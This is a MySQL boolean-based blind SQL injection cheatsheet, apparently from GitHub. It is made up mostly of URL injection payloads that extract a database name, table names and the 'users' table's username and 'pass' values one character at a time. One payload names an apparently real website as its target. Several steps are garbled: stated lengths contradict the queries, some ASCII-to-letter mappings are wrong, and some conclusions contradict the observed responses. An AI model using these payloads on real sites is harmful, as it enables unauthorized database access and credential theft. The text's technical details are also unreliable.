 # MySQL Boolean Based Blind SQL Injection Cheatsheet

## Identifying the vulnerability

Normally in Blind SQLi, you can't really see the output of queries you enter. In this case, the only way to verify about the vulnerability, is by looking if the website loads successfuly or not/partially.

Use the following queries to identify the website behaviour:  

```http://domain.com/index.php?id=1' AND 4570=4570 AND 'ZeoB'='ZeoB```  
Page fully loads successfuly.  

```http://www.nttbworld.com/tour-details.php?id=65' AND 4570=4570 AND 'ZeoB'='ZeoBFalse```  
Page will partially load or it will not even load.  

## Retrieving database

**Retrieving the length of database name**

The given query will verify if database has 14 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 15 --+```  
If website partially loads or doesn't load, it means that database is not 10 characters long.

The given query will verify if database has 9 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 11 --+```  
Page loads successfully. Database name is 11 characters long.

**Retrieving the database name**

This method is slow, because we have to hit-or-miss for every character of the database. Let's take a look below. The below table, will help us convert ascii to string.  

![ascii_table](https://imgs.chip.de/ZBgGgeBx4QyqnxIERLeIjZ0BoXg=/1200x674/filters:format(jpeg):fill(fff,true)/www.chip.de%2Fii%2F8%2F1%2F7%2F6%2F6%2F1%2F0%2F4%2FUnbenannt-41a448c7fdc8d42f.jpg)

The given query will define is the first character of database name is 111 (o)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 110 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  

The given query will define is the first character of database name is 110 (n)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 109 --+```  
Website loads fully, this means the first character of database is **n**.

Continue enumerate the second character of database name.  

The given query will define is the first character of database name is 98 (h)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 97 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  


The given query will define is the first character of database name is 116 (t)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 115 --+```  
Website loads fully, this means the second character of database is **t**.

Continue doing the same process over and over until you find all 11 characters.  

1st character: 110 -> **n**  
2nd character: 116 -> **t**  
3rd character: 116 -> **t**  
4th character: 104 -> **h**  
5th character: 119 -> **w**  
6th character: 102 -> **f**  
7th character: 105 -> **i**  
8th character: 57 -> **9**  
9th character: 95 -> _  
10th character: 100 -> **d**  
11th character: 98 -> **b**  

All 11 charachters combined together will be the database name: **ntthwfi9_db**

**Retrieving length of table name**

Given query will test the condition whether the length of string for the first table is equal than 4 or not.  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+```

The website didn't load properly, so let's try if the length is 5 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+```  
The website loads fully, so the length of the first table name is 5.  

**NOTE:** You can enumerate the others table too, by changing the number value in this part of payload: (limit **0**,1). Simply replace it with another number. For example, let's see if 4th column has 6 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) = 6 --+```  

**Retrieving name of table name**  

On this case, I will enumerate the the first column.
Let's find the first character of table:  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 114 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 116 --+```  
Website fully loads, it means the first character is ascii 117 (u).  


Let's find the last character of table (5th character):  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 96 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 105 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 114 --+```  
Website fully loads, it means the first character is ascii 115 (s).  

Keep doing the same process for the other characters, until you find all the characters.  

1st character: 110 -> **u**  
2nd character: 115 -> **s**  
3rd character: 101 -> **e**  
4th character: 114 -> **r**  
5th character: 115 -> **s**  

All 5 charachters combined together will be the first table name: **users**

**Retrieve length of column name**  

Using the same method as before, enumerate the length of column name.

Given below query will test for string length is equal to 6 or not:  
```' AND (length((select username from users limit 0,1))) = 6 --+```  
Website doesn't load properly, column is not 6 characters long.  

Given below query will test for string length is equal to 4 or not:  
```' AND (length((select username from users limit 0,1))) = 4 --+```  
Website fully loads, column is 6 characters long.  

Using the same method, you can also enumerate other columns.

Enumerate the length of second column if it is 6 or not:  
```' AND (length((select username from users limit 1,1))) = 6 --+```  

Enumerate the length of third column if it is 5 or not:  
```' AND (length((select username from users limit 2,1))) = 5 --+```  

And so on...

**Retrieve column name**

Since we know the length of column name is 4, let's find out the characters one by one.

Given below query will test if the first character of the first column name is ascii 101 (e):  
```' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 100 --+```  
Website doesn't load properly, first char is not **e**.  

Given below query will test if the first character of the first column name is ascii 112 (p):  
``' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 111 --+``  
Website doesn't load properly, first char is **p**.  

Given below query will test if the second character of the first column name is ascii 97 (a):  
``' AND (ascii(substr((select username from users limit 1,1) ,1,1))) > 96 --+``  
Website doesn't load properly, second char is **a**.  

Given below query will test if the third character of the first column name is ascii 115 (s):  
``' AND (ascii(substr((select username from users limit 2,1) ,1,1))) > 114 --+``  
Website doesn't load properly, third char is **s**.  

Given below query will test if the fourth character of the first column name is ascii 115 (s):  
``' AND (ascii(substr((select username from users limit 3,1) ,1,1))) > 114 --+``  
Website doesn't load properly, fourth char is **s**.  

1st character: 110 -> **p**  
2nd character: 97 -> **a**  
3rd character: 115 -> **s**  
4th character: 115 -> **s**  

All 4 charachters combined together will be the column table name: **pass**

